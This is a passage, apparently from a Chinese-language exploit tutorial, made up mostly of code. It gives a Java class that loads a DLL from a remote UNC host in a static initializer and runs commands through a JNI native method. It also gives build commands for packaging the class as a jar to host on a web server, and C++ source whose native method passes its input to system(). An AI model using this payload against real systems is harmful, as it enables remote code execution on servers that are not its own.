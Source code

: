 ```java
public class R {
    static {
	    System.load("\\\\xxx.xxx.xxx.xxx\\JNI.dll");
    }

    public static native void exec(String cmd);

    public R(String cmd) {
        exec(cmd);
    }
}
```

执行命令

```
javac R.java
jar cvf R.jar R.class
```

将打包的 R.jar 放到服务器上的 web 服务下。

<a name="DLL"></a>
##### DLL

<a name="R.h"></a>
###### R.h

```
#ifdef __cplusplus
extern "C" {
#endif
	JNIEXPORT void JNICALL Java_R_exec
	(JNIEnv *, jclass, jstring);

#ifdef __cplusplus
}
#endif
#endif
```

<a name="R.cpp"></a>
###### R.cpp

```
#include "R.h"
#include<stdlib.h>

JNIEXPORT void JNICALL Java_R_exec
(JNIEnv *env, jclass clazz, jstring str) {
	char* cmd= (char*)env->GetStringUTFChars(str,JNI_FALSE);
	system(cmd);
	env->ReleaseStringUTFChars(str,cmd);
}
```
